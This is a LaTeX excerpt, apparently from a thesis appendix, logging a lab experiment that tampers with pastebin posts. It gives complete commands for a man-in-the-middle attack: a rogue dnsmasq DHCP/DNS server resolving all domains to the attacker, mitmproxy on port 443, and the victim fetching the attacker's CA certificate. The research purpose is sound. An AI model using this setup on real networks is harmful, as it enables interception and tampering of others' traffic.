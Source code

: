 \documentclass[mscthesis]{usiinfthesis}
\begin{document}
\begin{lstlisting}[language={},frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
# post text without MITM attack
- Computer 2, Terminal 1
> echo "Thank you very much for the feedback. Your suggestion on X sounds legit. I will make X able to Y after I finished Z. I will send you another email once I finished related tasks." | curl -sS -F 'sprunge=<-' https://sprunge.us
http://sprunge.us/yqnNHp
> curl https://sprunge.us/yqnNHp
Thank you very much for the feedback. Your suggestion on X sounds legit. I will make X able to Y after I finished Z. I will send you another email once I finished related tasks.
- Computer 1, Terminal 2
> curl https://sprunge.us/yqnNHp
Thank you very much for the feedback. Your suggestion on X sounds legit. I will make X able to Y after I finished Z. I will send you another email once I finished related tasks.
# everything is correct
\end{lstlisting}

\subsubsection{With MITM attack by DNS hijacking, without protection}
\paragraph{}
Following commands are used to prepare MITM attack by DNS hijacking. The script used by mitmproxy is available at \cref{sec:mitmattack.py}.
\begin{lstlisting}[language={},frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
- Computer 1, Terminal 2
> sudo kill $(ps -ef |grep dnsmasq|grep yongbin -m 1|sed "s/\w* *//"|cut -d " " -s -f 1)
> sudo /usr/sbin/dnsmasq --conf-file=/dev/null --no-hosts --no-resolv --keep-in-foreground --interface=eno1 --except-interface=lo --clear-on-reload --strict-order --listen-address=192.168.22.1 --bind-interfaces --no-poll --address=/#/192.168.22.1  --cache-size=0  --dhcp-range=192.168.22.1,192.168.22.255,255.255.255.0,400w --dhcp-authoritative --dhcp-leasefile=/tmp/yongbin.lease --dhcp-option=option:dns-server,192.168.22.1 --dhcp-option=3,192.168.22.1 --log-queries --log-facility=-

- Computer 1, Terminal 1
> mitmproxy --listen-port 443 --listen-host 192.168.22.1 -s mitmattack.py

- Computer 1, Terminal 3
> python3 -m http.server -d ~/.mitmproxy/

- Computer 2, Terminal 1
> wget 192.168.22.1/mitmproxy-ca-cert.pem

- Computer 1, Terminal 3
> ^C
\end{lstlisting}
\end{document}
